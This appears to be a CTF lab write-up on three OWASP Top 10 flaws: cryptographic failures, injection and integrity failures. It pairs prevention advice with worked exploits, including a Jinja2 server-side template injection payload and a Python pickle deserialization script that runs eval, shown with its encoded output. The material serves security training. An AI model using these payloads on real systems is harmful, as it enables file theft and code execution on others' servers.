


This room will introduce you to 3 elements of the OWASP Top 10 list (2025). In this room, you will learn about the elements relating to application behaviour and user input. We will cover these vulnerabilities briefly, how to prevent them, and finally, you will practice exploiting these vulnerabilities:

- A04: Cryptographic Failures
- A05: Injection
- A08: Software or Data Integrity Failures

### How to Prevent Cryptographic Failures

Preventing cryptographic failures starts with choosing strong, modern algorithms and implementing them properly. Sensitive information such as passwords should be hashed using robust, slow hashing functions like bcrypt, scrypt, or Argon2. When encrypting data, avoid creating your own algorithms; instead, rely on trusted, industry-standard libraries.

Never embed access credentials (i.e., to a third-party service) in source code, configuration files, or repositories. Instead, use secure key management systems or environments specifically designed for storing secrets.

### A04: Cryptographic Failures

Cryptographic failures happen when sensitive data isn't adequately protected due to lack of encryption, faulty implementation, or insufficient security measures. This includes storing passwords without hashing, using outdated or weak algorithms (such as MD5, SHA1, or DES), exposing encryption keys, or failing to secure data during transmission.




we will capture this page request in burpsuite and send the request to intruder.


now that we have set our payload, we can start the Attack.

as you can see we got our flag the XOR key is `KEY1`.

Ans. THM{WEAK_CRYPTO_FLAG}


## A05: Injection

Preventing injection starts by ensuring that user input is always treated as untrusted. Rather than parsing directly, instead, take elements of the input for querying. For SQL queries, this means using prepared statements and parameterised queries instead of building queries through string concatenation. For OS commands, avoid functions that pass input directly to the system shell, and instead rely on safe APIs and processes that don’t invoke the shell at all.


Input validation and sanitisation is must to prevent these types of attacks.

This CTF Demonstrates the Server Side Template Injection attack

here we have used 
`{{ request.application.__globals__.__builtins__.open('flag.txt').read() }}`
and obtained the flag.

it was a Jinja2 payload injection. you can refer this github repo [Jinja2 payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#jinja2---template-format)
Ans. THM{SSTI_FLAG_OBTAINED}


### A08: Software or Data Integrity Failures

Software or Data Integrity Failures occur when an application relies on code, updates, or data it assumes are safe, without verifying their authenticity, integrity, or origin. This includes trusting software updates without verification, loading scripts or configuration files from untrusted sources, failing to validate data that impacts application logic, or accepting data such as binaries, templates, or JSON files without confirming whether it has been altered.

```
import pickle
import base64

class Malicious:
    def __reduce__(self):
        # Return a tuple: (callable, args)
        # This will execute: open('flag.txt').read()
        return (eval, ("open('flag.txt').read()",))

# Generate and encode the payload
payload = pickle.dumps(Malicious())
encoded = base64.b64encode(payload).decode()
print(encoded)

```
we will run this and we will get the base64 code encoded with the payload.
```
gASVMwAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIwXb3BlbignZmxhZy50eHQnKS5yZWFkKCmUhZRSlC4=

```

this will be the base64 version of the payload.


and there we got we got our flag.

Ans. THM{INSECURE_DESERIALIZATION}

